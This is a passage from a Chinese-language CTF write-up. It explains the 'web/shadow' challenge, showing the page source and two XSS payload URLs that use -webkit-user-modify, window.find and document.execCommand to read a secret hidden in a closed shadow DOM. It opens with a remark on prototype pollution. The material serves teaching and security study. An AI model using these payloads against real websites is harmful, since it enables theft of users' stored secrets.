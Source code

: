 所以只要污染原型链，让`[][0]`不为空，就可以通过admin的检测

## web/shadow

> I found a totally secure way to insert secrets into a webpage
>
> [shadow.mc.ax](https://shadow.mc.ax/)  |  [Admin Bot](https://admin-bot.mc.ax/shadow)

页面源码可以看到js

```html
<script>
      // the admin has the flag set in localStorage["secret"]
      let secret = localStorage.getItem("secret") ?? "dice{not_real_flag}"
      let shadow = window.vault.attachShadow({ mode: "closed" });
      let div = document.createElement("div");
      div.innerHTML = `
          <p>steal me :)</p>
          <!-- secret: ${secret} -->
      `;
      let params = new URL(document.location).searchParams;
      let x = params.get("x");
      let y = params.get("y");
      div.style = y;
      shadow.appendChild(div);
      secret = null;
      localStorage.removeItem("secret");
      shadow = null;
      div = null;

      // free XSS
      window.xss.innerHTML = x;
</script>
```

使用cloesd模式的shadow DOM，我们无法直接处理它的DOM结构

但是CSS样式可控，我们这里使用一个非标准的CSS属性：`-webkit-user-modify`，它与`contenteditable`类似，可以调用`document.execCommand`来插入HTML

整体思路：先用 `window.find`去focus内容之后，再执行`document.execCommand`去插入 HTML，然后通过`svg`的event去执行JS拿到节点

```
/?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('insertHTML',false,'<svg/onload=alert(this.parentNode.innerHTML)>')">
```

如果没有`focus`会失败；用img这样的会读不到`this.parentNode`，但是如果在前面加上`document.exec('selectAll')`也是可以的

```
/?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('selectAll');document.execCommand('insertHTML',false,'<img/src=x+onerror=alert(this.parentNode.parentNode.innerHTML)>')">
```

## ***web/denoblog
